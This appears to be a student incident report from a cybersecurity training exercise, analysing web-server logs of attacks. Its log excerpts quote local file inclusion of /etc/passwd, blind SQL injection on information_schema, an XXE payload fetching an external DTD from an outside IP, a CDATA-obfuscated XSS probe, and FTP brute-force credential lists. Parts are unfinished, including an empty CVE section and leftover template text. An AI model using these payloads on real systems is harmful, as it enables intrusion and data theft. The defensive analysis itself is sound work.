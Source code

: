 ﻿
# Incident Report '8'

  

Matt, Mohamed, Peter, Rajan, Omozaye | Lighthouse Labs Desk 10

  

Date and time of attack:
Attack start: 28/09/2020 07:25:42:00AM
Attack end: 30/09/2020 11:52:38:00AM
  

Attack vector:

## Vector Diagnosis

1. Local File Inclusion, SQL Injection, XXE Injection, XSS, FTP Brutefoce, HTTP Bruteforce.

2. Attempted SQL Injection in which they attempted to gain information about the 'information_schema' within our SQL DB by outputting table/column output. Attempted to bruteforce login via HTML/FTP. Attempted to determine if server was vulnerable to XSS via XXE injection. Attempted to traverse via LFI. 
  

## Attack Analysis

1. In SQL, the 'information_schema' was the target. Query was issued 200 status, no SQL logs, most likely successful. HTTP Bruteforce attempts were unsuccessful and were blocked as unauthorized 403 status. XXE injection was likely successful, shown 200 status. 

2. Add the proof of the attack - e.g. URL in encoded as well as decoded format.

  

**Example of attacks below**

Performing local file inclusion to access username list on /etc/passwd file
```
113.53.75.43--[30/Sep/2020:07:49:32-0400]"GET/login.php?file=.\/\.\.\/\.\/etc/passwdHTTP/1.1"2003343"http://www.cybintnews.com/index.html?file=.\/\.\.\/\.\/etc/passwd"
```

SQL Injection targeting columns from 'Information_schema'
```
 ??id=5 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'HTTP/1.1"2003343"http://www.cybintnews.com/index.html??id=5 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'"
```

XXE is attempting to load external DTF  
```
158.52.23.93--[30/Sep/2020:07:49:26-0400]"GET/login.php?upload=<foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://57.21.52.73:22/">%dtd;]><xxx/>]]></foo>HTTP/1.1"2003343"http://www.cybintnews.com/index.html?upload=<foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://57.21.52.73:22/">%dtd;]><xxx/>]]></foo>"
```

Using XXE to determine if XSS is possible 
```
138.27.84.74--[30/Sep/2020:07:49:26-0400]"GET/index.html?upload=<foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>HTTP/1.1"2003343"http://www.cybintnews.com/index.html?upload=<foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>
```


**List of targeted FTP Users**
| Usernames  | Attempts |
| ------------- |:-------------:| 
| admin  | **803** |
| root | **399** |

**List of most targeted FTP Passwords**
| Passwords  | Attempts |
| ------------- |:-------------:| 
| admin1234  | **95** |
| Adminpass123 | **72** |
| dsvasdvasdv | **72** |
| p@ssword12!  | **72** |
| wqevqv | **72** |
| we | **72**
| asdfvasa | **70** |
| dsa | **70** |
| sdvas | **70** |
| sdvav | **70** |

**Sample of attacks**  

IP | Country | Events | Example of attack
--- | --- | --- | --- |
164.45.76.23 | United States | **408** | `164.45.76.23 - - [28/Sep/2020:07:25:49 +0000] 164.45.76.23:21 - 164.45.76.23:21 - LOGIN FAILED: admin:we (Incorrect: ) FTP Auth Attempts`
186.26.85.78 | Brazil | **399** | `FTP Auth Attempts`
74.213.66.24 | Puerto Rico | **399** | `FTP Auth Attempts`
86.44.133.63 | Ireland | **87** | `/login.php??id=5 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > `
138.27.84.74 | United States | **39** | `/login.php?loginusername=administrator&loginpassword=66776677`
113.53.75.43 | Thailand | **1** | `/login.php?file=.\/\.\.\/\.\/etc/passwd`


## Signature / CVE Details

**CVE Example Below**

```

```

  

## Mitigation Steps

Disable DTD - External entities within HTML5. Whitelist only FTP port 21, and use SFTP over SSH. Santize Inputs.
